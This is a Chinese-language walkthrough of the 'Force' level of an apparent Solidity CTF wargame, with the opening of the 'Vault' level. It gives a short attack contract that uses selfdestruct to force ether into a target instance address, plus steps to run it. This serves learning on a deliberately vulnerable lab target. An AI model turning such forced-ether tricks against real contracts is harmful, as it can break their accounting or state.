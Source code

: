 ## Force

### 挑战要求

- 给合约转账

### 漏洞

强制给一个合约发送eth的，不管它要不要它都得收下，这是通过`selfdestruct`函数来实现的。

格式：

```
selfdestruct(target address);
```

*注意：使用`selfdestruct`的时候，指向的合约地址必须是显式的地址，而不能使用变量来代替*

### 攻略

1. 先新建一个包含selfdestruct函数的合约A

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {

constructor() public payable{}
receive() payable external{}
function hack() public{
  selfdestruct(0x62579fF1D2CD4Fe484F57249cD2C0DE6fDcb63AF);//函数中填写你想要转账的合约实例地址
}
}
```

2. 往合约A里打钱
3. 调用hack()函数，从而使用selfdestruct函数，向你的实例地址转账

over

![image-20220802183103900](C:\Users\huawei\AppData\Roaming\Typora\typora-user-images\image-20220802183103900.png)



## Vault

### 要求

- 解开保险箱

### 漏洞

*正经人谁把密码明文存在区块链上啊*
